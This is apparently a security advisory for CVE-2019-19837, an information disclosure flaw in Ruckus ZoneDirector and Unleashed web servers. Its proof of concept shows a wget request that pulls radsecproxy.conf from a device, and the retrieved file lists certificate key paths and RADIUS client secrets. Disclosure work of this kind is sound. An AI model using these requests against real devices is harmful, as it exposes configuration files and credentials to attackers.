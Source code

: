 ```yaml
---
layout: vuln
credit: waveburst
timeline:
    - type: 'report'
      date: '2019-09-19'
      arg: 'Ruckus Product Security Team'
    - type: 'patch'
      date: '2019-12-24'
      url: 'https://support.ruckuswireless.com/security_bulletins/299'
    - type: 'cve-assign'
      date: '2019-12-17'
    - type: 'release'
      date: '2019-12-31'
product:
     - ' - ZoneDirector

        - Unleashed'

vulnerable:
    '- ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

vulnerable:
     - ' - ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'



severity: 'high'
alephid: ALEPH-2019007
cve: CVE-2019-19837
date: '2019-12-17'
references:
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - txt'
      url: 'https://www.ruckuswireless.com/security/299/view/txt'
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - PDF'
      url: 'https://www.ruckuswireless.com/security/299/view/pdf'
  
title: 'Information disclosure vulnerability'

---
```

‘Embedthis-Appweb/3.4.2’ configuration file - `webs.conf`, lacks access control. An attacker can fetch any file from the /web directory, regardless of its file extension or type. `web` directory contains sensitive information such as backend code, executables, and symbolic links to `/tmp` directory.

## Proof Of Concept ##
Example of information leakage from `/web` directory
``` shell
➜  /tmp wget -q 192.168.0.1/uploaded/radsecproxy.conf
➜  /tmp file radsecproxy.conf 
radsecproxy.conf: ASCII text
➜  /tmp cat radsecproxy.conf 
ListenUDP               *:1815
PidFile                /var/run/tac/radsecproxy.pid
LogLevel                3
LogDestination          x-syslog:///LOG_LOCAL2
rewrite delSuffix {
    modifyAttribute 1:/^(.*)@(.*)$/\1/
}
tls default {
    CACertificatePath    /etc/airespider/certs/ca
    CACertificateFile    /etc/airespider/certs/cacert.pem
    CertificateFile    /etc/airespider/certs/webaccert.pem
    CertificateKeyFile    /etc/airespider/certs/webackey.pem
}
client 127.0.0.1 {
    type udp
    secret secret
}
client [::1] {
    type udp
    secret secret
}

```
